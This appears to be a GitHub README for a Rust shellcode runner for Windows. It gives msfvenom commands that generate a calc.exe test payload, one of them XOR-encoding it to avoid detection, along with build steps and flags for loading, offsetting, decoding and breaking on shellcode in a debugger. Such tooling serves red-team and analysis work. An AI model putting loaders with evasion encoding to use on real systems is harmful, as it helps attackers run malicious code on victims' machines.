 # rs-shellcode

A shellcode runner write in Rust use [windows-rs](https://github.com/microsoft/windows-rs).


# how to use it

Install [rustup](https://rustup.rs/).

```sh
rustup default
```

Use msfvenom generate shellcode for test.

```sh
msfvenom -p windows/x64/exec CMD=calc.exe  --platform win -f raw -o calc64.raw
```

XOR obfuscated payload.
```sh
msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=calc.exe -f raw --encrypt xor --encrypt-key "\x55"
```

Build:

```sh
cargo build --release
```

On linux using [cross](https://github.com/cross-rs/cross):
```sh
cross build -r --target=x86_64-pc-windows-gnu
```

Usage:
```
rs_shellcode 

USAGE:
    rs_shellcode.exe [FLAGS] [OPTIONS] -f <file>

FLAGS:
    -b               set breakpoint in debugger
    -h, --help       Prints help information
    -V, --version    Prints version information

OPTIONS:
    -f <file>          shellcode path
    -o <offset>        shellcode offset
    -x <xor>           deobfuscate with XOR encoding
```

Run:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH>
```

When your shellcode not start at offset 0, you can specify the offset use `-o`:

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -o 0x30
```


Run with breakpoint flag (`-b`):

```sh
./target/debug/rs_shellcode.exe -f <SHELLCODE_PATH> -b
```

use this flag, you can break just before your shellcode in the debugger, which will make your life easier.

![breakpoint in windbg](./breakpoint.png)
